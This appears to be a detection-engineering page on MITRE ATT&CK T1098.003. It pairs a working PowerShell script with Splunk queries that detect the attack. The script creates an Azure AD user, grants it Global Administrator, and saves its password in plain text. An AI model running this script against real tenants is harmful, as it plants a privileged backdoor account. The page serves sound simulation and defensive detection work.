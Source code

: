 # Account Manipulation: Additional Cloud Roles
## About
An adversary can create an account and then add it to a privileged role such as Global Administrator. <br>
More details here in <a href="https://attack.mitre.org/techniques/T1098/003/" target="_blank"> MITRE ATT&CK </a> . <br>

## Attack Simulation

The below script creates an account and adds the account to the Global administrator role. <br>

``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin role"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```

Azure AD user is assigned the Global Admin role as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/AccountManipulationAdditionalCloudRoles-T1098-003_0.png"></img>
<br>

## Splunk Detection

### User added to the administrator role
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add member to role" result="success"
| eval AssignedRoleName = mvindex('targetResources{}.modifiedProperties{}.newValue', mvfind('targetResources{}.modifiedProperties{}.displayName', "Role\.DisplayName"))
| eval RoleWellKnownObjectName = mvindex('targetResources{}.modifiedProperties{}.newValue', mvfind('targetResources{}.modifiedProperties{}.displayName', "Role\.WellKnownObjectName"))
| search AssignedRoleName = "*Administrator*"
| rename targetResources{}.userPrincipalName as UserAddedToRole, initiatedBy.user.ipAddress as src_ip, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAddedToRole, AssignedRoleName, src_ip ,CreatedByUPN,  roleWellKnownObjectName
```

#### The User was created outside PIM (e.g. PowerShell)
When the user is assigned to an administrator role without using <a href="https://docs.microsoft.com/en-us/azure/active-directory/privileged-identity-management/pim-configure">Azure AD Privileged Identity Management (PIM)</a>, a corresponding Azure Ad event "RoleElevatedOutsidePimAlert" is generated and we would want to detect such an event. Any privileged role assignment should be done only through PIM. <br>

```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```
